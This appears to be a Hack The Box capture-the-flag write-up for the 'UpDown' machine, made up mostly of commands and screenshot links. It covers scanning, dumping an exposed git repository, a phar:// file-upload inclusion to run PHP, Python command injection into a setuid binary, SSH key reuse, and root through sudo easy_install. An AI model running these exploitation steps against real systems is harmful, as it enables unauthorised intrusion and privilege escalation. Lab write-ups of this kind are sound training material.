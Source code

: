 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.177
nmap -p- -T5 10.10.11.177
nmap -sU -T5 10.10.11.177
```
![image](https://github.com/regarmulia/HTB/assets/33616880/15bb628f-5350-404b-b2d7-eafb2335761d)

![image](https://github.com/regarmulia/HTB/assets/33616880/5fae680f-c693-4297-8d4f-fad45d708e18)

![image](https://github.com/regarmulia/HTB/assets/33616880/9e42e535-c455-4d85-9a9d-a039eb16e54c)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.11.177/FUZZ -fs 277 -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/077ed537-45e8-4ea9-a060-f12c713317de)

```
gobuster dir -u 10.10.11.177 -w /usr/share/dirb/wordlists/common.txt
gobuster dir -u http://10.10.11.177/dev/ -w /usr/share/dirb/wordlists/common.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a61a87b5-2384-4c18-ae4a-8205a3a644e5)

```
http://10.10.11.177/
http://10.10.11.177/dev/
http://10.10.11.177/dev/.git/
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4d1ba772-886d-495b-95bd-41ee263f6786)

![image](https://github.com/regarmulia/HTB/assets/33616880/4027a9c2-5c52-457e-866a-f7cfee17108e)

![image](https://github.com/regarmulia/HTB/assets/33616880/535382da-97dd-4bc7-bc70-907ad859d45b)

```
pip install git-dumper
git-dumper http://10.10.11.177/dev/.git /home/itsec/Documents/HTB-UpDown/dev/
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4204b7d4-86e5-4e5a-947e-75a493b4fe48)

![image](https://github.com/regarmulia/HTB/assets/33616880/80273182-2492-48e9-b019-065cb1185564)

![image](https://github.com/regarmulia/HTB/assets/33616880/f0a4a58e-1c6b-4703-8daf-0ff81cfbad8c)

```
git log
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7e72fada-0ecf-4f5e-81af-79687122e623)

![image](https://github.com/regarmulia/HTB/assets/33616880/a720577a-bbc2-45fe-a3f7-db57d1c5cbda)

```
Proxy – Match and replace rules
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f976a607-593e-48e1-a9e3-6e52253ea074)

```
http://dev.siteisup.htb/
```
![image](https://github.com/regarmulia/HTB/assets/33616880/97dc16bf-d314-4448-887b-3590a4e5f338)

![image](https://github.com/regarmulia/HTB/assets/33616880/031e235e-781f-46ac-83e3-8b3c2ec7a69f)

![image](https://github.com/regarmulia/HTB/assets/33616880/0838e7c3-ae2c-42ce-a472-bfe74caf82ab)

```
echo "<?php phpinfo(); ?>" > info.php
zip info.zip info.php
mv info.zip info.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/652bec68-34c3-4bcb-b23b-cdd3072aff64)

```
http://dev.siteisup.htb/uploads/
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d4792383-cb0f-4616-add7-2c23d4b235ae)

![image](https://github.com/regarmulia/HTB/assets/33616880/da408073-3391-482f-ab16-ebc049727f47)

```
http://dev.siteisup.htb/?page=phar://uploads/81d6840826b9f6ab35021cfbc006b9be/info.txt/info
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5f3e5e9c-7c23-49e2-88e4-462971c8f3db)

```
https://github.com/teambi0s/dfunc-bypasser
./dfunc-bypasser.py --url 'http://dev.siteisup.htb/?page=phar://uploads/e744af4911ee9e365e53bebef0ee2496/info.txt/info'
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d79e28d9-f6a5-457e-8072-707a93be3a57)

```
nano rev.php
zip rev.zip rev.php
mv rev.zip rev.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fe3d33c7-2356-4a7b-bf40-3ef2f4d2b221)

![image](https://github.com/regarmulia/HTB/assets/33616880/a2144978-4e6c-499a-8fdf-9cf5fd9ecd1f)

![image](https://github.com/regarmulia/HTB/assets/33616880/4c062487-c2f0-4abc-b1cc-87a0f86936db)

```
cd /home/developer/dev
```
![image](https://github.com/regarmulia/HTB/assets/33616880/11e376a2-b3fd-4ad4-ab4d-1d3531773f26)

```
./siteisup
__import__('os').system('/bin/bash')
```
![image](https://github.com/regarmulia/HTB/assets/33616880/20f8a856-a577-4e6a-aa76-e4b3b771b94c)

```
cd .ssh
chmod 600 id_rsa
ssh -i id_rsa developer@10.10.11.177
```
![image](https://github.com/regarmulia/HTB/assets/33616880/35331faa-74b7-4450-b2db-63f77f1f9eab)

![image](https://github.com/regarmulia/HTB/assets/33616880/e668dfc6-5860-4451-9e77-3b599197e3db)

![image](https://github.com/regarmulia/HTB/assets/33616880/f4a34c73-95a0-4f58-bb6e-5700695b4876)

![image](https://github.com/regarmulia/HTB/assets/33616880/229d6715-841c-4ec2-9749-1a94b1b39e59)

```
sudo –l
https://gtfobins.github.io/gtfobins/easy_install/
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5a777a1d-ea59-4905-8cb4-e0b6c4947f8e)

![image](https://github.com/regarmulia/HTB/assets/33616880/5c5df04a-4057-40b9-b532-5d2eae8accad)
